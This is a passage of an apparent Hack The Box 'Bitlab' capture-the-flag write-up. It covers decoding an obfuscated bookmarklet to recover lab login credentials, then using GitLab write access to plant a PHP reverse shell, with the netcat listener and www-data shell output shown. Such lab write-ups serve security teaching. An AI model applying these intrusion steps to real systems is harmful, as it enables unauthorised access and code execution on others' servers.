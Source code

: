 ```bash
---------------------------------------------------------------------------
+ 1 host(s) tested
```
There are lot of interesting entries in `robots.txt`  
The following entries looks interesting.
```bash
+ Entry '/users/sign_in/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/profile/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/help/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

I found the following javascript code in `bitlab.htb/help/` directory under `bookmarks.html`
```javascript
href='javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E",  
"\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65",  
"\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];  
document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()'
```
Looks like gibberish. But let see if we can try decoding it using the following site. [Javascript Decoder](https://lelinhtinh.github.io/de4js/)

Decoded javascript
```javascript
javascript: (function () {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];  
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

So we have some user creds `username:clave` and `password:11des0081x`. We can use thse to login to the `gitlab` application.

## Low Privilege Shell
To get low privilege shell we have to consider the following options

* We can login to the `gitlab` application
* There are two repositories `Profile` and `Deployer`
* We can write files to the the repositories
* The repository named `profile` is being hosted at `http://bitlab.htb/profile/`
* We can execute `php` files written to `Profile` repository by visiting the file at `http://bitlab.htb/profile/php_file`

So lets create a php reverse shell and execute it to get a reverse shell.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/bitlab1.gif){: .align-center}

```bash
root@kali:~/Desktop/htb/bitlab# nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.15.138] from bitlab.htb [10.10.10.114] 51342
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 05:54:26 up 41 min,  0 users,  load average: 0.96, 0.47, 0.39
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
